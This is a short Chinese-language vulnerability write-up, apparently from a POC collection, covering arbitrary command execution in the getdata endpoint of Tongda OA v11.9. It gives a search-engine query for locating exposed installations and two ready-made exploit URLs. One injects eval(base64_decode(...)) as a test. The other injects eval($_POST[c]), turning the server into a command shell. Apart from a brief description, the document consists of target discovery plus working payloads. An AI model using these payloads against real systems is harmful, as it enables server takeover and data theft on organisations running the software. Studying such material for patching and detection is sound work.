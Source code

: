 # 

# 通达OA v11.9 getdata 任意命令执行漏洞

## 漏洞描述

通达OA v11.9 getdata接口存在任意命令执行漏洞，攻击者通过漏洞可以执行服务器任意命令控制服务器权限

## 漏洞影响

```
通达OA v11.9
```

## 网络测绘

```
app="通达OA网络智能办公系统"
```

## 漏洞复现

登录页面

![image-20221008102828374](./images/202210081028459.png)

验证POC

```
/general/appbuilder/web/portal/gateway/getdata?activeTab=%E5%27%19,1%3D%3Eeval(base64_decode(%22ZWNobyB2dWxuX3Rlc3Q7%22)))%3B/*&id=19&module=Carouselimage
```

![image-20221008102844264](./images/202210081028320.png)

```
/general/appbuilder/web/portal/gateway/getdata?activeTab=%E5%27%19,1%3D%3Eeval($_POST[c]))%3B/*&id=19&module=Carouselimage
```
